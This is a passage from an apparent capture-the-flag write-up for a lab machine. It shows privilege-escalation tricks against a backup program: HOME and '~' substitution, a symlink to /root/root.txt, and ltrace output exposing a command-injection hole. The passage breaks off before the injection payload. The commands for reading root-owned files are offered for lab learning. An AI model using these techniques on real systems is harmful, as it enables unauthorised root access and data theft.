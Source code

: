 **Method 2 — Using the Home Variable**

The ~ character is not filtered either, so we can make use of it to make a backup of the root directory.

First, set the $HOME environment variable to be /root.

```text
export HOME=/root
```

Then, call the backup program with the ~ character.

```text
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "~"
```

**Method 3— Using Symlinks**

A symbolic link is a file that points to another file. Let’s point the root.txt file to a file called alt-file.txt.

```text
tom@node:/tmp$ mkdir altdir
tom@node:/tmp$ cd altdir/
tom@node:/tmp/altdir$ ln -s /root/root.txt altfile
```

* **-s:** make symbolic links instead of hard links

Then, call the backup program with the link file.

```text
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /tmp/altdir
```

**Method 4— Command Injection**

The past three methods involved us exploiting the backup file in a way that gives us access to a privileged file. We haven’t really escalated our privileges to root. This method exploits a command injection vulnerability that will give us a shell with root privileges.

Run ltrace again on the program to backup a file that doesn’t exist, in our case, we name that file “bla”

```text
ltrace -s 200 ./backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 bla
```

You get the following system call.

```text
...
system("/usr/bin/zip -r -P magicword /tmp/.backup_725656931 bla > /dev/null" <no return ...>
...
```

It runs the zip command on the file name. Since the input is only partially validated against the list of characters we found above, we can exploit this to get command execution.

One thing to note is that it does send the output to /dev/null and therefore to bypass that we have to pass a random command/string after our bash shell command.

